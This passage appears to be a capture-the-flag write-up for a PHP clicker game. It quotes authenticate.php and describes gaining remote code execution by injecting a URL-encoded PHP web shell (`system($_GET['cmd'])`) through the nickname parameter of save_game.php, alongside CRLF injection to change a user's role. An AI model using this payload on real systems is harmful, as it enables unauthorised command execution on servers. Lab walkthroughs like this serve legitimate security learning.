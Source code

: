 
### Create nickname malicious php code

It's changed to PHP code, so I'll try to put malicious code on the nickname and change the extension to PHP. But to create malicious code, we need to use special characters, but register.php does not accept special characters, so we need to use another way.







we need change it my nickname user using code php

Read the file authenticate.php
```
<?php
session_start();
include_once("db_utils.php");

if (isset($_POST['username']) && isset($_POST['password']) && $_POST['username'] != "" && $_POST['password'] != "") {
	if(check_auth($_POST['username'], $_POST['password'])) {
		$_SESSION["PLAYER"] = $_POST["username"];
		$profile = load_profile($_POST["username"]);
		$_SESSION["NICKNAME"] = $profile["nickname"];
		$_SESSION["ROLE"] = $profile["role"];
		$_SESSION["CLICKS"] = $profile["clicks"];
		$_SESSION["LEVEL"] = $profile["level"];
		header('Location: /index.php');
	}
	else {
		header('Location: /login.php?err=Authentication Failed');
	}
}
?>
```

```
`$_SESSION["NICKNAME"] = $profile["nickname"];` 
```
The param is `nickname` so we just append `nickname` on `play.php` to update our nickname with php malicious code


just we dont need bypass because role only need bypass because something prevent it .

`&nickname=<%3fphp+system($_GET['cmd'])+%3f>` just add this only at the param save_game.php this is code for remote code execution php . Decode the php code to url encode . To get top player in leaderboard clicker you can change your clicker to `999999999999` to appear in leaderboard . CREATE A NEW ACCOUNT AND CHANGE CLICKER NUMBER AND ADD CRLF INJECTION PAYLOAD TO MODIFY ROLE . AFTER THAT FORWARD AND DO IT AGAIN WITH ADD NICKNAME	, because i've did it all at once but it didn't work.


Now check in leaderboard
